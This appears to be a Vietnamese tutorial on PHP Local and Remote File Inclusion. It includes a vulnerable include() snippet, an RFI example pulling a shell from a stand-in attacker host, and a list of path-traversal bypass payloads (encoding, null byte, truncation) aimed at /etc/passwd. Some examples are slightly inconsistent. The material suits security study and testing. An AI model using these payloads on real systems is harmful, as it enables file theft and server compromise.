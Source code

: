     *Remote file inclusion*
    *Local file inclusion*
    
    Lưu ý: Trong PHP có 1 số hàm cũng có chức năng tương tự, hay các hàm do người lập trình tự viết như: Inlude_once(), require(), require_once()…
    

## Tác hại và một số cách bypass

### Local file inclusion (LFI)

Lỗ hổng Local file inclusion nằm trong quá trình include file cục bộ có sẵn trên server. Lỗ hổng xảy ra khi đầu vào người dùng chứa đường dẫn đến file bắt buộc phải include. Khi đầu vào này không được kiểm tra, tin tặc có thể sử dụng những tên file mặc định và truy cập trái phép đến chúng, tin tặc cũng có thể lợi dụng các thông tin trả về trên để đọc được những tệp tin nhạy cảm trên các thư mục khác nhau bằng cách chèn các ký tự đặc biệt như `/`,`../`, `-`.

**Local file inclusion trong PHP:**

1. giá trị của `file` được cung cấp bởi người dùng có thể bị tấn công:
    `https://victim_site/home.php?file=menu`
2. Giá trị của biến ‘file’ được lấy vào đoạn mã PHP dưới đây:
    `<?php … include($_REQUEST['file'.'.php']); … ?>`
3. Giờ thì tin tặc sẽ đưa mã độc vào biến `file` để truy cập trái phép vào file trong cùng chủ mục hoặc sử dụng kí tự duyệt chỉ mục như `../` để di chuyển đến chỉ mục khác. Ví dụ tin tặc lấy được log bằng cách cung cấp đầu vào `/apache/logs/error.log` hoặc `/apache/logs/access.log` hay việc đánh cắp dữ liệu liên quan đến tài khoản của người dùng thông qua `../../etc/passwd` trên hệ thống Unix.
      
### Remote file inclusion (RFI)

RFI cho phép tin tặc include và thực thi trên máy chủ mục tiêu một tệp tin được lưu trữ từ xa. Tin tặc có thể sử dụng RFI để chạy một mã độc trên cả máy của người dùng và phía máy chủ. Ảnh hưởng của kiểu tấn công này thay đổi từ đánh cắp tạm thời session token hoặc các dữ liệu của người dùng cho đến việc tải lên các webshell, mã độc nhằm đến xâm hại hoàn toàn hệ thống máy chủ.

**Remote file inclusion trong PHP:**
1. Ví dụ giá trị của `file` được cung cấp bởi người dùng có thể bị tấn công:
    `www.victim_site.com/home.php?file=menu`
2. Giá trị của biến ‘file’ được lấy vào đoạn mã PHP dưới đây:
    `<?php … include($_REQUEST['file'.'.php']); … ?>`
3. Giờ thì tin tặc sẽ đưa mã độc vào biến `file`:
    `www.victim_site.com/home.php?test=https://www.attacker_site.com/shell`
    File `shell` được bao hàm vào trang có sẵn trên máy chủ và thực thi mỗi khi trang `home.php` được truy cập. Tin tặc sẽ đưa mã độc vào `shell` và thực hiện hành vi độc hại.
    

### Một số cách bypass:

**Traversal sequences stripped non-recursively:**
```
https://victim_site/home.php?file=....//....//....//etc/passwd
https://victim_site/home.php?file=....\/....\/....\/etc/passwd
http://victim_site/static/%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c/etc/passwd
```
**Null byte (%00):**
```
https://victim_site/home.php?file=../../../../etc/passwd%00
```
**Encoding:**
```
https://victim_site/home.php?file=..%252f..%252f..%252fetc%252fpasswd
https://victim_site/home.php?file=..%c0%af..%c0%af..%c0%afetc%c0%afpasswd
https://victim_site/home.php?file=%252e%252e%252fetc%252fpasswd
https://victim_site/home.php?file=%252e%252e%252fetc%252fpasswd%00
```
**Path and dot truncation:**
```
https://victim_site/home.php?file=../../../etc/passwd............[ADD MORE]
```